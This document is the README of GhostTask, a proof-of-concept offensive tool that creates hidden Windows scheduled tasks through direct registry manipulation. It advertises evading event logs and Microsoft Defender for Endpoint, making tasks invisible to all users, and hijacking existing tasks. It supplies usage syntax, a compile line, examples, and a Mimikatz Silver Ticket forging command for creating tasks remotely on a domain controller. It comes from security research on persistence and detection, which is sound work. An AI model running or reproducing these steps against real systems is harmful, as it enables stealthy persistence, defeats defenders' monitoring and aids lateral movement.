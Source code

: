 # Ghost Scheduled Task
While using scheduled tasks as a means of persistence is not a novel approach, threat actors have employed various techniques to conceal their malicious tasks. A notable method involves [removing the SD registry key](https://www.microsoft.com/en-us/security/blog/2022/04/12/tarrask-malware-uses-scheduled-tasks-for-defense-evasion/), which represents the security descriptor, thereby obscuring the scheduled task from forensic investigations.

Inspired by [WithSecure](https://twitter.com/WithSecure)'s research on [Scheduled Task Tampering](https://labs.withsecure.com/publications/scheduled-task-tampering), they explained the feasibility of creating a scheduled task solely through registry key manipulation. Such an approach can bypass the generation of scheduled task creation event logs, like `4698` and `106`, offering a more stealth method of establishing persistence. In light of these insights, I've crafted this POC to demonstrate creating scheduled tasks via direct registry manipulation.

Given the undocumented nature of the registry key data structures related to scheduled tasks, my methodology for crafting them primarily relied on trial and error by comparing them with legitimate scheduled tasks. I also made references to the interfaces within `Taskschd.h` and drew extensively from [Cyber.WTF Windows Registry Analysis – Today's Episode: Tasks](https://cyber.wtf/2022/06/01/windows-registry-analysis-todays-episode-tasks/). This research was invaluable in guiding me to formulate the data structures for key registry components, such as `Triggers`, `Actions`, and `DynamicInfo`, which were essential to construct a functional scheduled task.

The tool offers the following features:
- Creates scheduled tasks with a restrictive security descriptor, making them invisible to all users.
- Establishes scheduled tasks directly via the registry, bypassing the generation of standard Windows event logs.
- Provides support to modify existing scheduled tasks without generating Windows event logs.
- Supports remote scheduled task creation (by using specially crafted Silver Ticket).

*Remark:
- As of October 21, 2023, this tool has been tested on Windows 10, Windows Server 2016, 2019, and 2022
- As of October 21, 2023, no alert and no scheduled task creation event (`ScheduledTaskCreated` action type) will be generated in MDE (Microsoft Defender For Endpoint)
- To create a scheduled task using this tool, **"NT AUTHORITY/SYSTEM"** privileges are required
- After configuring the scheduled task, you'll need to either **restart the system** or **await the next reboot** for the task to be loaded into the "Schedule" service process and subsequently executed

## Usage
```
Usage: GhostTask.exe <hostname/localhost> <operation> <taskname> <program> <argument> <username> <scheduletype> <time/second> <day>
- hostname/localhost: Remote computer name or "localhost".
- operation: add/delete
  - add: Create or modify a scheduled task using only registry keys. Requires restarting the "Schedule" service to load the task definition.
  - delete: Delete a scheduled task. Requires restarting the "Schedule" service to offload the task.
- taskname: Name of the scheduled task.
- program: Program to be executed.
- argument: Arguments for the program.
- username: User account under which the scheduled task will run.
- scheduletype: Supported triggers: second, daily, weekly, and logon.
- time/second (applicable for 'second', 'daily', and 'weekly' triggers):
  - For 'second' trigger: Specify the frequency in seconds for task execution.
  - For 'daily' and 'weekly' triggers: Specify the exact time (e.g., 22:30) for task execution.
- day (applicable for 'weekly' trigger): Days to execute the scheduled task (e.g., monday, thursday).
```

### Compile
```
x86_64-w64-mingw32-gcc GhostTask.c -o GhostTask.exe -lrpcrt4
```

## Examples
### 1. Create a new scheduled task that will call notepad.exe every Monday and Thursday at 2:12 pm:
```
GhostTask.exe localhost add demo "cmd.exe" "/c notepad.exe" LAB\Administrator weekly 14:12 monday,thursday
```
![HowTo](https://github.com/netero1010/GhostTask/raw/main/example1.png)

### 2. Modify existing scheduled task with new schedule type, user and program:
```
GhostTask.exe localhost add "Microsoft\Office\Office Automatic Updates 2.0" "cmd.exe" "/c notepad.exe" LAB\employee001 daily 20:37
```
![HowTo](https://github.com/netero1010/GhostTask/raw/main/example2.png)

### 3. Create a new scheduled task on remote computer:

As discussed in the WithSecure blog ([Extra: Lateral Movement](https://labs.withsecure.com/publications/scheduled-task-tampering) section), you can use specially crafted Silver Ticket to modify registry keys associated to scheduled tasks on . This allows you to create a scheduled task remotely.
```
kerberos::golden /domain:LAB.CORP /sid:S-1-5-21-1111111111-1111111111-1111111111 /aes256:[aes256hash] /user:Administrator /service:cifs /target:dc01.lab.corp /sids:S-1-5-18 /endin:600 /renewmax:10080
```

Create a new scheduled task on the DC01 server remotely, which will launch notepad.exe every day at 3:19 pm:
```
GhostTask.exe DC01.lab.corp add demo "cmd.exe" "/c notepad.exe" LAB\Administrator daily 15:19
```
![HowTo](https://github.com/netero1010/GhostTask/raw/main/example3.png)

## Credits
- [WithSecure](https://twitter.com/WithSecure) for their research [WithSecure Scheduled Task Tampering](https://labs.withsecure.com/publications/scheduled-task-tampering)
- [Cyber.WTF](https://cyber.wtf/) for their research [Windows Registry Analysis – Today’s Episode: Tasks](https://cyber.wtf/2022/06/01/windows-registry-analysis-todays-episode-tasks/)
- [ausecwa](https://github.com/ausecwa) for his [bof-registry](https://github.com/ausecwa/bof-registry)